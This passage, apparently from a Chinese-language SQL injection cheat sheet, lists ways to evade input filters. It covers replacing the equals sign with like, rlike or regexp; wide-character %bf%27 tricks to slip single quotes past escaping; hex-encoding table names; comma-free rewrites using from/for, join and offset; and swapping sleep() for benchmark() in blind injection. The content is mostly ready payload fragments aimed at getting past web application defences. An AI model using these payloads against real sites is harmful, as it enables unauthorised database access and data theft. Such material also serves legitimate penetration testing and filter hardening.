 <> 等价于 != ，所以在前面再加一个`!`结果就是等号了

```
?id=1 or 1 like 1
?id=1 or 1 rlike 1
?id=1 or 1 regexp 1
?id=1 or !(1 <> 1)或者1 !(<>) 1
```

#### 9.对单引号的绕过

宽字符

```
# 过滤单引号时
%bf%27  %df%27  %aa%27
```

使用十六进制

```
'users'=>0x7573657273
```

#### 10.对逗号的绕过

盲注中使用 `from n1 for n2` ，其中n1代表从n1个开始读取n2长度的子串

```
select substr("string",1,3);
等价于 select substr("string" from 1 for 3);
```

使用`join`关键字来绕过

```
union select 1,2,3
等价于 union select * from (select 1)a join (select 2)b join(select 3)c
```

使用offset关键字：

```
适用于limit中的逗号被过滤的情况
limit 2,1等价于limit 1 offset 2
```

#### 11.过滤函数绕过

sleep() -->benchmark()

```
and sleep(1)
等价于 and benchmark(1000000000,1)
```

group_concat()–>concat_ws()

```
select group_concat("str1","str2");
等价于 select concat_ws(",","str1","str2");
```
